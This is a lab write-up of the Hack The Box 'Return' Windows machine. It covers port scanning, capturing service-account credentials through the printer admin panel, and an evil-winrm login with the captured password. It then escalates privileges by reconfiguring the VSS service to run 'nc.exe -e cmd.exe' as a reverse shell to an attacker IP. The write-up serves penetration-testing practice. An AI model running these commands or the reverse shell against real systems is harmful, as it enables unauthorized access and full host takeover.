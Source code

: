 # Return Write-Up

Easy

Tags:
`Network`
`Easy`
`Internal`
`SMB`
`Penetration Tester Level 1`
`Information Disclosure`
`Printers`
`WinRM`
`Weak Authentication`
`Management Protocols`
`Group Membership`

## Intro

1. Use `configuration pages` of the priter to specific the
domain controller or file server.

2. 

## Enumeration

### Port scanning

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.108 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.10.11.108
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-11 03:03:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
53118/tcp open  msrpc         Microsoft Windows RPC
```

### Try [SMB Enumeration](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)

Nothing to exploit

### Web interface

Edit `Server Address` -> attacker ip

netcat listener on port 389

password: `1edFg43012!!`

WinRM tool kali - `evil-winrm`

```
ruby evil-winrm.rb -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

## Privilege Escalation

Check `Local Group Memberships` of `svc-printer` user

```
net user svc-printer
```

```
Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```

[Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group can start, stop system services

Use [basic command](https://github.com/Hackplayers/evil-winrm#basic-commands) of `evil-winrm` to upload `windows-binaries` - A collection of Windows executables for use on penetration tests.

```
upload /usr/share/windows-resources/binaries/nc.exe
```

Use `sc.exe config` - Modifies the value of a service's entries in the registry and in the Service Control Manager database.

```
sc config <service name> binPath= <binary path>
```

Why use `vss - Volume Shadow Copy` instead of another service?

How to use `nc.exe`? Why use `"nc.exe -e cmd.exe <ip> <port>"` command?

```
sc.exe config vss binpath='C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.16.6 1234'
```

listener on port 1234

```
sc.exe start vss
```